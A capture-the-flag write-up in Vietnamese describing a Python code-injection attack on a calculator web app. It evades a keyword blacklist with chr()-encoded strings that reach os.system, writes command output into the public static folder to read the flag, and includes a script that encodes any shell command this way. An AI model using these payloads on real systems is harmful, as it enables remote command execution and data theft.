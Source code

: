 ![image](https://github.com/user-attachments/assets/9bbddbcf-fa08-4995-a8a0-3f71b5a89842)

Giao diện chỉ đơn giản như này, khi nhập số và phép toán thì output sẽ trả lại kết quả của phép toán đó:

![image](https://github.com/user-attachments/assets/a5052c4b-0589-4703-bbad-5cae8bc574fc)

Khi bấm ctrl u thì có thể thấy được blacklist của nó:

![image](https://github.com/user-attachments/assets/c4e9f31d-5b99-4729-a34b-fae72f2d63c2)

Do chặn khá nhiều thứ nên tôi dùng chr() để bypass `__import__(chr(111)+chr(115)).system(chr(105)+chr(100))` lệnh tôi chạy là id, output thì ra là 0, điều đó chứng tỏ đã chạy được nhưng không hiện ra output:

![image](https://github.com/user-attachments/assets/9373af79-0953-45c3-9d84-8823e789090f)

![image](https://github.com/user-attachments/assets/5c79bf36-a890-4cfc-bd3f-e9e326b11554)

Nếu để ý thì có cái phần static có thể xem được file trong đấy, tôi dùng `__import__(chr(111)+chr(115)).system(id > /app/static/test.txt)` và chuyển sang là `__import__(chr(111)+chr(115)).system(chr(105)+chr(100)+chr(32)+chr(62)+chr(32)+chr(47)+chr(97)+chr(112)+chr(112)+chr(47)+chr(115)+chr(116)+chr(97)+chr(116)+chr(105)+chr(99)+chr(47)+chr(116)+chr(101)+chr(115)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116))`

![image](https://github.com/user-attachments/assets/a7913de8-2537-4c4d-a82d-32d431a9dcb7)

![image](https://github.com/user-attachments/assets/6df9d9d9-07a8-4e45-998f-4596767f46c4)

```
CMD="cat /flag.txt > /app/static/flag.txt"
payload=""
for i in range(len(CMD)):
    if i==len(CMD)-1:
        payload+=f"chr({ord(CMD[i])})"
    else:
        payload+=f"chr({ord(CMD[i])})+"

payload=f"__import__(chr(111)+chr(115)).system({payload})"
print(payload)
```
